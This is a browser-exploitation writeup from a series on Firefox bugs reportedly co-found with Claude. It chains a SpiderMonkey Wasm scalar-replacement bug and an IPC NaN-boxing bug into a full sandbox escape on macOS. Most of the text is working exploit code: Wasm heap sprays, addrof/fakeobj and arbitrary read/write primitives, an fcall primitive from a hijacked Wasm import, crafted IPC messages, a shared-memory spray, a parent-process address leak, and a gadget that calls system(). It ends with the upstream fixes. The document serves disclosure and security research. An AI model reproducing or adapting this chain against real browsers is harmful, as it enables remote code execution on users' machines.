

# What The Claude: PhiNaNigans — Chaining Bugs 2024918 and 2022034 into a Full Firefox Sandbox Escape

## Introduction

This writeup is part of **What The Claude**, a series where we analyze and
root-cause browser bugs (co)found with Claude from Anthropic. The previous
entries covered the two halves of this chain: [Bug
2024918](../bug-2024918-wasm-scalar-replace-phi-escape/) gives us code
execution in Firefox's content process, and [Bug
2022034](../bug-2022034-jsipcvalue-nan-boxing/) takes us from there to code
execution in the parent.

Bug 2024918 brings the phi node, Bug 2022034 brings the NaN, and chaining them
is where the PhiNaNigans begin. For this episode, we will develop a full RCE
PoC for Bug 2024918, build an `fcall()` primitive in the content process, and
chain it with Bug 2022034 into a full Firefox sandbox escape.

Let's begin:

```javascript
async function pwn() {
  const stage1 = await rce();  // Content-process code execution.
  await sbx(stage1);           // Parent-process code execution.
}
```

## Setup

- macOS 26.5.2 on Apple Silicon
- Vulnerable Firefox revision:
  [`92a1d6f948e2`](https://github.com/mozilla-firefox/firefox/commit/92a1d6f948e2b1613c65ea4511c6c6463c420608)
- Bug 2024918 fix:
  [`1c39b127b06b`](https://github.com/mozilla-firefox/firefox/commit/1c39b127b06b161ba0d52412d4b8d188472efbe7)
- Bug 2022034 fix:
  [`557568e88c39`](https://github.com/mozilla-firefox/firefox/commit/557568e88c3976af69605861ccdfb22ce2e8ebe5)
- Tested XUL SHA-256:
  `7acfc72b1fecfdfa1420fb65c4da49156bf4e2695e242052452f3171b55c72c0`

The PoC offsets are specific to this XUL build.

The PoC can be found [here](pocs/poc.js).

Serve the PoC directory:

```bash
python3 -m http.server 8000 \
  --bind 127.0.0.1 \
  --directory /absolute/path/to/bug-2024918-2022034-firefox-sandbox-chain/pocs
```

Open the page with a new profile:

```bash
profile="$(mktemp -d /tmp/phinanigans.XXXXXX)"
/path/to/Nightly.app/Contents/MacOS/firefox \
  --no-remote \
  --new-instance \
  --profile "$profile" \
  "http://127.0.0.1:8000/index.html"
```

You should be greeted by the Calculator app.

## Renderer Code Execution

[In Part 2](../bug-2024918-wasm-scalar-replace-phi-escape/), we focused on the
root cause of Bug 2024918.

SpiderMonkey's Wasm GC scalar-replacement pass can remove a struct field
initializer even though the struct remains reachable. The allocated field then
contains leftover bytes from another Wasm allocation.

We use two Wasm modules to fill reusable nursery slots with either an object
pointer or a chosen `i64`. Before each trigger, the `$Spray` objects are
unreachable, but their field bytes remain in one of these layouts:

```text
addrof(object): spray-ref.wasm
8 x 0x40000 allocations

     reusable slot #0           reusable slot #1
+-----------+------------+  +-----------+------------+
| GC header | old field0 |  | GC header | old field0 |  ...
|           | JSObject*  |  |           | JSObject*  |
+-----------+------------+  +-----------+------------+

table[0] -> null


fakeobj(address): spray-i64.wasm
8 x 0x40000 allocations

     reusable slot #0           reusable slot #1
+-----------+------------+  +-----------+------------+
| GC header | old field0 |  | GC header | old field0 |  ...
|           | address    |  |           | address    |
+-----------+------------+  +-----------+------------+

table[0] -> null
```

Both [`spray-ref.wat`](pocs/spray-ref.wat) and
[`spray-i64.wat`](pocs/spray-i64.wat) store each new `$Spray` in a one-slot
table. The reference spray looks like this:

```wasm
(module
  ;; Pseudocode: type Spray = { field0: anyref }
  (type $Spray (struct (field (mut anyref))))

  ;; Pseudocode: const table = [null]
  (table $table 1 anyref)

  (func (export "spray") (param $count i32) (param $value externref)
    (local $i i32)
    (local $cell (ref null $Spray))
    ;; Pseudocode: do {
    (loop $loop
      ;; Pseudocode: cell = new Spray(value)
      (local.set $cell
        (struct.new $Spray (any.convert_extern (local.get $value))))

      ;; Pseudocode: table[0] = cell
      ;; 1. struct.new can be scalar-replaced when the object does not escape.
      ;; 2. table[0] makes cell escape, so SpiderMonkey cannot remove the
      ;;    allocation.
      ;; 3. The one-slot table replaces the previous reference, making the old
      ;;    $Spray unreachable and eligible for collection.
      (table.set $table (i32.const 0) (local.get $cell))
      (local.set $i (i32.add (local.get $i) (i32.const 1)))
      ;; Pseudocode: } while (++i < count)
      (br_if $loop (i32.lt_s (local.get $i) (local.get $count))))

    ;; Pseudocode: table[0] = null
    ;; Once spray() returns, no $Spray remains reachable.
    (table.set $table (i32.const 0) (ref.null any))))
```

`table.set` is lowered in `js/src/wasm/WasmIonCompile.cpp` through
[`tableSetAnyRef()`](https://github.com/mozilla-firefox/firefox/blob/92a1d6f948e2b1613c65ea4511c6c6463c420608/js/src/wasm/WasmIonCompile.cpp#L2237-L2265).
It loads the current table element, then stores the new value as an
`MWasmStoreRef`:

```cpp
[[nodiscard]] bool tableSetAnyRef(uint32_t tableIndex, MDefinition* address,
                                  MDefinition* value,
                                  uint32_t lineOrBytecode) {
  // ...
  auto* prevValue = MWasmLoadTableElement::New(alloc(), elements, address32,
                                               table.elemType());
  curBlock_->add(prevValue);

  // ...
  auto* store = MWasmStoreRef::New(
      alloc(), instancePointer_, loc, /*valueOffset=*/0, value,
      AliasSet::WasmTableElement, WasmPreBarrierKind::Normal);
  curBlock_->add(store);

  return postBarrierEdgePrecise(lineOrBytecode, loc, prevValue);
}
```

In `js/src/jit/ScalarReplacement.cpp`,
[`IsWasmStructEscaped()`](https://github.com/mozilla-firefox/firefox/blob/92a1d6f948e2b1613c65ea4511c6c6463c420608/js/src/jit/ScalarReplacement.cpp#L3855-L3936)
only allows uses that scalar replacement knows how to handle. `WasmStoreRef`
is not one of them, so the default case marks `$Spray` as escaped:

```cpp
static bool IsWasmStructEscaped(MDefinition* ins, MInstruction* newStruct) {
  // ...
  for (MUseIterator i(ins->usesBegin()); i != ins->usesEnd(); i++) {
    // ...
    switch (def->op()) {
      // ... Supported uses omitted.

      // By default, we consider the struct as escaped.
      default:
        JitSpewDef(JitSpew_Escape, "is escaped by\n", def);
        return true;
    }
  }

  // ...
}
```

This prevents scalar replacement, so `$Spray` remains an actual allocation. On
this build, `$Spray` and `$Inner` each contain one 64-bit field.

Each spray allocates enough structs to trigger nursery collections. Since the
table retains only the newest `$Spray` and is cleared before returning, the
older objects are reclaimed while their field bytes remain in reusable cells
(SpiderMonkey calls each GC-managed allocation a [GC
cell](https://github.com/mozilla-firefox/firefox/blob/92a1d6f948e2b1613c65ea4511c6c6463c420608/js/src/gc/Cell.h#L122-L137)).
The trigger then allocates the same-sized `$Inner` from those cells.

The allocator creates `$Inner` with `zeroFields = false`, while a separate MIR
store should initialize `field0`. Bug 2024918 removes that store, so `field0`
retains the object pointer or address placed there by the spray.

`addrof` and `fakeobj` look like this:

```javascript
function addrof(object) {
  for (let i = 0; i < 8; i++) {
    sprayRef.instance.exports.spray(0x40000, object);
  }
  triggerI64.instance.exports.run(3);
  return BigInt.asUintN(64, triggerI64.instance.exports.read());
}

function fakeobj(address) {
  for (let i = 0; i < 8; i++) {
    sprayI64.instance.exports.spray(0x40000, address);
  }
  triggerAnyref.instance.exports.run(3);
  return triggerAnyref.instance.exports.read();
}
```

The first fake object is a string whose character buffer points at a real
`Uint8Array`. Reading its first eight bytes as characters gives us the array's
`Shape*`:

```javascript
store32(stringScratch, OFFSETS.fakeObject, 0x410);      // Flags.
store32(stringScratch, OFFSETS.fakeObject + 4, 8);      // Length.
store64(
    stringScratch, OFFSETS.fakeObject + 8,
    shapeArrayAddress);                                 // Characters.

const string = fakeobj(fakeStringAddress | 2n);
let shape = 0n;
for (let i = 0; i < 8; i++) {
  shape |= BigInt(string.charCodeAt(i)) << BigInt(i * 8);
}
```

We use that pointer to build a fake `Uint8Array`. `DATA_SLOT` chooses the
address it reads or writes, while `LENGTH_SLOT` sets the size:

```text
fakeArrayAddress
  +0x00  Shape*
  +0x08  slots*           = nullptr
  +0x10  elements*        = fakeArrayAddress
  +0x18  BUFFER_SLOT      = false
  +0x20  LENGTH_SLOT      = 8
  +0x28  BYTEOFFSET_SLOT  = 0
  +0x30  DATA_SLOT        = address to read or write
```

`mem()` writes the requested address and length into those fields. `read64()`
reads eight bytes from that address, while `write64()` writes eight bytes:

```javascript
const memory = fakeobj(fakeArrayAddress);

function mem(address, length = 8n) {
  store64(objectScratch, OFFSETS.fakeObject + 32, length);
  store64(objectScratch, OFFSETS.fakeObject + 48, address);
  return memory;
}

function read64(address) {
  return load64(mem(address));
}

function write64(address, value) {
  store64(mem(address), 0, value);
}
```

We read `objectSlot`'s elements pointer. Its first element holds one
`JS::Value`. `addrof()` assigns an object and reads that value as an address.
`fakeobj()` writes a tagged address and returns it as an object:

```javascript
const objectSlotAddress = read64(
    objectSlotObjectAddress + OFFSETS.nativeObjectElements);

const prims = {
  addrof(object) {
    objectSlot[0] = object;
    return read64(objectSlotAddress) & POINTER_MASK;
  },

  fakeobj(address) {
    write64(objectSlotAddress, OBJECT_TAG | (address & POINTER_MASK));
    return objectSlot[0];
  },

  read64,
  write64,
};
```

## The fcall Primitive

We will use arbitrary read and write to change a Wasm import's native target.
SpiderMonkey stores each Wasm import in
[`FuncImportInstanceData`](https://github.com/mozilla-firefox/firefox/blob/92a1d6f948e2b1613c65ea4511c6c6463c420608/js/src/wasm/WasmInstanceData.h#L127-L147).
Its first field is the address called by Wasm:

```cpp
struct FuncImportInstanceData {
  void* code;
  Instance* instance;
  JS::Realm* realm;
  GCPtr<JSObject*> callable;
  static_assert(sizeof(GCPtr<JSObject*>) == sizeof(void*), "for JIT access");
  bool isFunctionCallBind;
};
```

[`wasmCallImport()`](https://github.com/mozilla-firefox/firefox/blob/92a1d6f948e2b1613c65ea4511c6c6463c420608/js/src/jit/MacroAssembler.cpp#L6355-L6393)
loads `code` into `ABINonArgReg0`:

```cpp
CodeOffset MacroAssembler::wasmCallImport(const wasm::CallSiteDesc& desc,
                                          const wasm::CalleeDesc& callee) {
  // ...
  loadPtr(
      Address(InstanceReg, wasm::Instance::offsetInData(
                               instanceDataOffset +
                               offsetof(wasm::FuncImportInstanceData, code))),
      ABINonArgReg0);
  // ...
  return wasmMarkedSlowCall(desc, ABINonArgReg0);
}
```

On Apple Silicon,
[`wasmMarkedSlowCall()`](https://github.com/mozilla-firefox/firefox/blob/92a1d6f948e2b1613c65ea4511c6c6463c420608/js/src/jit/arm64/MacroAssembler-arm64.cpp#L3813-L3819)
calls the address in that register:

```cpp
CodeOffset MacroAssembler::wasmMarkedSlowCall(const wasm::CallSiteDesc& desc,
                                              const Register reg) {
  AutoForbidPoolsAndNops afp(this, !GetStackPointer64().Is(vixl::sp) ? 3 : 2);
  CodeOffset offset = call(desc, reg);
  wasmMarkCallAsSlow();
  return offset;
}
```

[`pocs/fcall.wat`](pocs/fcall.wat) imports one JavaScript function and forwards
eight `i64` arguments to it. We find its `FuncImportInstanceData` by checking
the instance, realm, callable object, and flags:

```javascript
for (let offset = 0n; offset < 0x2000n; offset += 8n) {
  const address = instance + offset;
  if (prims.read64(address + OFFSETS.importInstance) === instance &&
      prims.read64(address + OFFSETS.importRealm) !== 0n &&
      prims.read64(address + OFFSETS.importCallable) === placeholderAddress &&
      (prims.read64(address + OFFSETS.importFlags) & 0xffn) === 0n) {
    importData = address;
    break;
  }
}
```

We replace the import target and call the Wasm wrapper. The wrapper loads our
arguments into `x0` through `x7` before calling the chosen address:

```javascript
function fcall(
    target,
    x0 = 0n,
    x1 = 0n,
    x2 = 0n,
    x3 = 0n,
    x4 = 0n,
    x5 = 0n,
    x6 = 0n,
    x7 = 0n) {
  prims.write64(importData, target);
  return BigInt.asUintN(64, fcallWasm.instance.exports.call(
      x0, x1, x2, x3, x4, x5, x6, x7));
}
```

At this point, we can call arbitrary functions in Firefox's renderer process.

## Finding `WindowGlobalChild`

We find the content-process XUL base through a `Uint8Array`. In
[`js/src/vm/Shape.h`](https://github.com/mozilla-firefox/firefox/blob/92a1d6f948e2b1613c65ea4511c6c6463c420608/js/src/vm/Shape.h#L238-L389),
SpiderMonkey stores the `BaseShape*` in the `Shape` header and the `JSClass*`
in the `BaseShape` header:

```cpp
// js/src/vm/Shape.h
class BaseShape : public gc::TenuredCellWithNonGCPointer<const JSClass> {
 public:
  const JSClass* clasp() const { return headerPtr(); }
  // ...
};

class Shape : public gc::CellWithTenuredGCPointer<gc::TenuredCell, BaseShape> {
  // ...
 public:
  BaseShape* base() const { return headerPtr(); }
  // ...
  const JSClass* getObjectClass() const { return base()->clasp(); }
  // ...
};
```

Fixed-length typed arrays select their class from
[`TypedArrayObject::fixedLengthClasses`](https://github.com/mozilla-firefox/firefox/blob/92a1d6f948e2b1613c65ea4511c6c6463c420608/js/src/vm/TypedArrayObject.cpp#L894-L910):

```cpp
// js/src/vm/TypedArrayObject.cpp
static inline const JSClass* instanceClass() {
  // ...
  return &TypedArrayObject::fixedLengthClasses[ArrayTypeID()];
}
```

The `Uint8Array` therefore gives us a `JSClass*` inside XUL. The PoC
reads the three pointers, subtracts the class offset, and checks the Mach-O
header:

```javascript
const stringAddress = prims.addrof(scratch.string);
const baseShape = prims.read64(prims.read64(stringAddress));
const contentXul = prims.read64(baseShape) - OFFSETS.typedArrayClass;
if ((prims.read64(contentXul) & 0xffffffffn) !== 0xfeedfacfn) {
  throw new Error("XUL base not found");
}
```

With the content XUL base, `getActor()` calls
`nsContentUtils::EntryInnerWindow()`,
`nsPIDOMWindowInner::GetWindowContext()`, and
`WindowContext::GetWindowGlobalChild()`:

```javascript
function getActor() {
  const innerWindow = fcall(contentXul + OFFSETS.entryInnerWindow);
  const windowContext = fcall(
      contentXul + OFFSETS.getWindowContext,
      innerWindow + OFFSETS.nsPIDOMWindowInner);
  const actor = fcall(
      contentXul + OFFSETS.getWindowGlobalChild, windowContext);
  if (actor === 0n) {
    throw new Error("WindowGlobalChild not found");
  }
  return actor;
}
```

`actor` is the `WindowGlobalChild*` we need to send a typed JS actor message to
the parent.

## Sending Firefox IPC From JavaScript

We store `JSActorMessageMeta` and `JSIPCValue` in two `Uint8Array`s. We create
the arrays before the Stage 1 sprays. The sprays trigger nursery garbage
collections and promote the arrays before we save their native addresses. This
keeps those addresses valid during our native calls.

We use `trigger()` to write the actor name, message name, and `JSIPCValue`
directly:

```javascript
store64(metadata, 0x00, scratch.stringData + 0x30n);
store32(metadata, 0x08, BYTES.actor.length - 1);
store32(metadata, 0x0c, 0x00020001);
store64(metadata, 0x10, scratch.stringData + 0x40n);
store32(metadata, 0x18, message.length);
store32(metadata, 0x1c, 0x00020001);
store32(metadata, 0x20, 0);
store64(metadata, 0x28, 0n);

store64(data, 0x00, OBJECT_TAG | (objectAddress & POINTER_MASK));
store32(data, 0x20, 5);  // JSIPCValue::Tdouble
```

We then call `PWindowGlobalChild::SendRawMessage()` to send the message to the
parent:

```javascript
const ret = fcall(
    contentXul + OFFSETS.sendRawMessage,
    actor + OFFSETS.pWindowGlobalChild,
    scratch.stringData,
    scratch.dataAddress,
    0n);
```

For the first message, we set `objectAddress` to `0x310000000`. This produces
the serialized bits `0xFFFE000310000000`. The parent receives the value as a
`double`, copies the bits into a `JS::Value`, and treats the result as
`(JSObject*)0x310000000`.

## Shared Memory In Both Processes

The fake object must be readable in the parent. We call `AllocUnsafeShmem()`
through `fcall()`, then fill the content-process mapping with the object layout
that SpiderMonkey will read. As we saw in [Part
3](../bug-2022034-jsipcvalue-nan-boxing/#the-leak), IPDL sends the shared-memory
handle to the parent, which maps the same bytes.

Each allocation is 4 MiB. We repeat a 16 KiB fake-object page through every
block and create 128 blocks:

```javascript
const page = fakePage(PARENT_OBJECT, callTarget);
const block = new Uint8Array(SHMEM_SIZE);
for (let offset = 0; offset < SHMEM_SIZE; offset += PAGE_SIZE) {
  block.set(page, offset);
}

for (let i = 0; i < SHMEM_COUNT; i++) {
  scratch.string.fill(0);
  const ok = fcall(
      contentXul + OFFSETS.allocUnsafeShmem,
      actor + OFFSETS.pWindowGlobalChild,
      BigInt(SHMEM_SIZE),
      scratch.stringData);
  const mapping = load64(scratch.string, 8);
  if (ok === 0n || mapping === 0n) {
    throw new Error("AllocUnsafeShmem failed");
  }
  mappings.push(mapping);
  mem(mapping, BigInt(SHMEM_SIZE)).set(block);
}
```

The parent chooses each mapping address. On my system, the spray usually
covered `0x310000000`. The address is system-specific, and a miss crashes the
parent at that address.

## Leaking Parent XUL

For the first actor message, we build a fake object whose `Shape`, `BaseShape`,
`Realm`, `Compartment`, and `BasePrincipal` all live in shared memory. The
principal's fake vtable redirects its comparison call to `strcpy()`. We resolve
`strcpy()` with `dlsym()` in the content process. On the tested macOS build,
the shared cache maps it at the same address in the parent.

At that call, `x0` points to the fake principal in shared memory and `x1`
points to the parent's real `SystemPrincipal`. `strcpy()` copies the real
principal's first field into shared memory. That field is a XUL vtable pointer.

We scan the shared mappings for the changed field and subtract the tested
`SystemPrincipal` vtable offset:

```javascript
const value = load64(memory, offset + OFFSETS.principal);
if (value !== initialVptr && value > OFFSETS.systemPrincipalVptr) {
  const parentXul = value - OFFSETS.systemPrincipalVptr;
  // ... Check that the value remains stable and the base is page-aligned.
}
```

## Parent Code Execution

With the parent XUL base, we calculate the gadget at XUL + `0x1192ff8` in the
tested binary:

```text
0x1192ff8  ldp   x8, x1, [x0, #0x20]
0x1192ffc  ldp   x2, x3, [x0, #0x30]
0x1193000  ldrb  w4, [x0, #0x40]
0x1193004  ldr   x5, [x0, #0x48]
0x1193008  ldp   x9, x6, [x0, #0x10]
0x119300c  add   x0, x9, x8, asr #1
0x1193010  tbz   w8, #0, 0x119301c
0x1193014  ldr   x8, [x0]
0x1193018  ldr   x6, [x8, w6, uxtw]
0x119301c  br    x6
```

With `x8` set to zero, the sequence calls `x6(x0, x1, ...)`. We resolve
`system()` in the content process, where the macOS shared cache maps it at the
same address as the parent. In the second shared object, we set `x6` to
`system()` and point `x0` to `/usr/bin/open -a Calculator`:

```javascript
const control = fakePage(
    controlObject, leak.parentXul + OFFSETS.systemGadget);

control.set(BYTES.command, OFFSETS.command);
store64(
    control, OFFSETS.principal + 0x10,
    controlObject + BigInt(OFFSETS.command));  // x9, then x0
store64(control, OFFSETS.principal + 0x18, system);  // x6
store64(control, OFFSETS.principal + 0x20, 0n);      // x8

trigger(actor, controlObject);
```

And that's it.



## The Fixes

The [Bug 2024918
fix](https://github.com/mozilla-firefox/firefox/commit/1c39b127b06b161ba0d52412d4b8d188472efbe7)
changes the escape check from the original allocation to the MIR value whose
uses are currently being inspected:

```diff
 case MDefinition::Opcode::WasmStoreFieldRef: {
-  if (def->toWasmStoreFieldRef()->value() == newStruct) {
+  if (def->toWasmStoreFieldRef()->value() == ins) {
```

The [Bug 2022034
fix](https://github.com/mozilla-firefox/firefox/commit/557568e88c3976af69605861ccdfb22ce2e8ebe5)
rewrites NaNs to the standard form before storing the `double` in a
`JS::Value`:

```diff
 case JSIPCValue::Tdouble:
-  aOut.setDouble(aIn.get_double());
+  aOut.set(JS_NumberValue(aIn.get_double()));
   return;
```

## References

- [What The Claude (CVE-2026-2796): Where'd the Wrapper Go?](../CVE-2026-2796-wasm-call-bind-import-confusion/)
- [What The Claude (Bug 2024918): The Phi That Got Away](../bug-2024918-wasm-scalar-replace-phi-escape/)
- [What The Claude (Bug 2022034): NaN Around and Find Out](../bug-2022034-jsipcvalue-nan-boxing/)
- [Bug 2024918](https://bugzilla.mozilla.org/show_bug.cgi?id=2024918)
- [Bug 2022034](https://bugzilla.mozilla.org/show_bug.cgi?id=2022034)
- [Bug 2024918 fix](https://github.com/mozilla-firefox/firefox/commit/1c39b127b06b161ba0d52412d4b8d188472efbe7)
- [Bug 2022034 fix](https://github.com/mozilla-firefox/firefox/commit/557568e88c3976af69605861ccdfb22ce2e8ebe5)
- [Mozilla: Behind the Scenes Hardening Firefox with Claude Mythos Preview](https://hacks.mozilla.org/2026/05/behind-the-scenes-hardening-firefox/)
- [SpiderMonkey `JS::Value` representation](https://github.com/mozilla-firefox/firefox/blob/92a1d6f948e2b1613c65ea4511c6c6463c420608/js/public/Value.h)
- [Wasm GC scalar replacement](https://github.com/mozilla-firefox/firefox/blob/92a1d6f948e2b1613c65ea4511c6c6463c420608/js/src/jit/ScalarReplacement.cpp)
- [IPDL shared-memory creation](https://github.com/mozilla-firefox/firefox/blob/92a1d6f948e2b1613c65ea4511c6c6463c420608/ipc/glue/ProtocolUtils.cpp#L733)
